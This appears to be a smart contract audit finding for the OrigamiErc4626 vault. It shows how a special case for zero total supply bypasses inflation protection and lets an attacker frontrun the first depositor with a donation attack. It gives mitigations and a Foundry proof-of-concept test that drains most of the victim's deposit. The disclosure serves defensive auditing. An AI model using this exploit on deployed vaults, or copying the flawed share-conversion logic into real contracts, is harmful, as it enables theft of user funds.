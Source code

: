 # An attacker can front run the first depositor to inflate the share price, stealing almost all deposited value by the victim

Donation attacks are fairly common knowledge in the context of smart contract security. Even so that Openzeppelin's implementation of ERC4626 has a built in mechanism for that. In all the conversions from assets->shares and vice-versa, the calculation is done in the following way:


```solidity
    function _convertToShares(uint256 assets, Math.Rounding rounding) internal view virtual returns (uint256) {
        return assets.mulDiv(totalSupply() + 10 ** _decimalsOffset(), totalAssets() + 1, rounding);
    }

    function _convertToAssets(uint256 shares, Math.Rounding rounding) internal view virtual returns (uint256) {
        return shares.mulDiv(totalAssets() + 1, totalSupply() + 10 ** _decimalsOffset(), rounding);
    }
```

Even when the value of `_decimalsOffset()` is set to 0 (which is the default value), adding `+1` in both numerator and denominator makes the attack inprofitable. Even though the shares _can_ be inflated, the inflated value is not accessible by the attacker and is effectively lost. So there is a very high risk for the attacker, and therefore the likelyhood of the attack is very low.

However, `OrigamiErc4626` has a small modification in those two critical functions that bypass this protection mechanism in an special scenario: when `_totalSupply==0`.

```solidity
    function _convertToShares(uint256 assets, OrigamiMath.Rounding rounding) internal view virtual returns (uint256) {
        uint256 _totalSupply = totalSupply();
        // @audit-issue this special case of _totalSupply==0 bypasses the actual shares-inflation attack protection ... ?
        return _totalSupply == 0
            ? assets.scaleUp(_assetsToSharesScalar)
            : assets.mulDiv(_totalSupply + DECIMALS_OFFSET_SCALAR, totalAssets() + 1, rounding);
    }

    function _convertToAssets(uint256 shares, OrigamiMath.Rounding rounding) internal view virtual returns (uint256) {
        uint256 _totalSupply = totalSupply();
        return _totalSupply == 0
            ? shares.scaleDown(_assetsToSharesScalar, rounding)
            : shares.mulDiv(totalAssets() + 1, _totalSupply + DECIMALS_OFFSET_SCALAR, rounding);
    }
```

## Impact: medium/high

Once the vault is deployed, an attacker can frontrun the first honest depositor, and steal the full deposit of the victim. The attack can be repeated for multiple multiple "first" depositors. 

Pre-conditions for the attack:
- `OrigamiErc4626` is deployed
- There are no default deposits made by the deployer because the attacker must be the first depositor 


### Risk classification

This issue has been classified as **high-risk** issue several times in the past:
- https://solodit.xyz/issues/h-02-first-depositor-can-break-minting-of-shares-code4rena-prepo-prepo-contest-git
- https://solodit.xyz/issues/h-03-stakedcitadel-depositors-can-be-attacked-by-the-first-depositor-with-depressing-of-vault-token-denomination-code4rena-badgerdao-badger-citadel-contest-git
- https://solodit.xyz/issues/m-10-new-galcx-token-denomination-can-be-depressed-by-the-first-depositor-code4rena-alchemix-alchemix-contest-git


However, I believe this classification is only valid in systems when the pool is deployed multiple times with a factory or similar. In this case, where the contract is deployed only once, the issue could be considered as **medium-risk** severity. 

However, the amount of assets that are at risk of this attack is not negligible. 

## Attack description

When no deposits have been made yet, and the first honest depositor initiates his transaction, 
the attacker front runs the honest deposit with:
- a deposit of a little amount (see PoC)
- a donation of `asset` to the contract

Then the hones deposit tx goes through, where assets are deposited, but no shares are minted. The depositor has lost his assets to the vault already. 

The second part of the attack is about getting the assets out of the vault. The attacker has to:
- Redeem his shares so that the `totalSupply == 0`, even though there are assets in the contract
- Make a new deposit (of a normal size), getting some shares minted to him
- Redeem those recently minted shares, which correspond to the majority of the assets in the vault (up to 98% in the proof of concept).

### Mitigation

1. Do not bypass the inflation-protection mechanism, even when `totalSupply==0`. 
2. Require a minimum deposit amount.
3. Revert if minted shares are 0 (to protect `alice`). I think this should be in place no matter what other mitigations are implemented.

We can discuss further options. 

### Proof of code

The following proof of code proves that an `attacker` can frontrun `alice` and end up stealing almost all her deposit. 

To run it, add it to `test/foundry/unit/common/erc4626/OrigamiErc4626.t.sol::OrigamiErc4626TestPermit.t.sol`. 

```solidity

contract OrigamiErc4626TestAttacks is OrigamiErc4626TestBase {

    function test_erc4626_donationAttack() public {

        // declarations
        address attacker = makeAddr("atacker");
        uint256 initialAttackerAssets = 15_000e18;
        
        // preparations & context
        deal(address(asset), alice, 5000e18);
        deal(address(asset), attacker, initialAttackerAssets);
        assertEq(vault.balanceOf(alice), 0);

        vm.prank(alice);
        asset.approve(address(vault), type(uint256).max);
        vm.prank(attacker);
        asset.approve(address(vault), type(uint256).max);

        // the attack beings. The attacker must be the first depositor of the vault, 
        // so he must front-run the first depositor (alice)  
        vm.prank(attacker);
        vault.deposit(3, attacker);
        // the first deposit gets scaled by 1, but some rounding-down cause the actual shares to be 1 less
        // the current share price after the first deposit is 2share=3assets 
        assertEq(vault.totalSupply(), 2);
        assertEq(vault.totalAssets(), 3);
        assertEq(vault.convertToShares(3), 2);

        // right after the deposit, the attacker makes a big donation of `asset` 
        // to inflate the share price
        vm.prank(attacker);
        asset.transfer(address(vault), 10_000e18);
        // Even though the price of 1 share should be inflated to around 5k (~10k assets for 2 shares), 
        // the inflation-protection mechanism and rounding directions makes it only 3333k
        assertEq(vault.convertToAssets(1), 3333_333333333333333334);
        // attacker still rightfully owns all shares in the vault
        assertEq(vault.totalSupply(), 2);
        assertEq(vault.balanceOf(attacker), vault.totalSupply());

        // An honest depositor deposits some amount of assets
        // The donation from the attacker should leave the share price just above 
        // the amount deposited by the honest depositor (3000 deposited < 3333 share price)
        // Alice receives then 0 shares, and the attacker still owns 100% of the totalSupply
        vm.prank(alice);
        vault.deposit(3000e18, alice);
        assertEq(vault.balanceOf(alice), 0);
        assertEq(vault.balanceOf(attacker), vault.totalSupply());

        // Thanks to the inflation-attack-protection inside convertToAssets(), 
        // even though the attacker owns 100% of the shares, 
        // only a portion of them can be withdrawn. The attacker is currently at a loss.
        assertEq(vault.maxWithdraw(attacker), 4333_333333333333333334);

        // However, the inflation-attack-protection is bypassed
        // when the totalSupply is back to 0, and the attacker owns the totalSupply.
        // Therefore he can redeem all the shares, leaving totalSupply=0 
        vm.startPrank(attacker);
        vault.redeem(vault.maxRedeem(attacker), attacker, attacker);
        assertEq(vault.totalSupply(), 0);
        assertEq(vault.balanceOf(attacker), 0);
        // Now that totalSupply==0, the attacker will get the same
        // number of shares as the assets deposited (except for the rounding-down)
        // All it takes to own again all assets is to make a new deposit (non-negligible deposit)
        vault.deposit(1000e18, attacker);

        // Now the attacker can withdraw almost the full balance from the vault (98% of the assets)
        assertEq(vault.totalSupply(), vault.balanceOf(attacker));
        assertApproxEqRel(vault.maxWithdraw(attacker), asset.balanceOf(address(vault)), 0.02e18);  // 2% error allowed

        // When the attacker redeems his shares, he has profited from alice
        vault.redeem(vault.maxRedeem(attacker), attacker, attacker);
        assertGt(asset.balanceOf(attacker), initialAttackerAssets);
        // to be more precise, he has now his initial supply, plus 2806, which is 93.3 % of alice assets
        assertEq(asset.balanceOf(attacker), initialAttackerAssets + 2806_666666666666666658);

        vm.stopPrank();
    }
}
```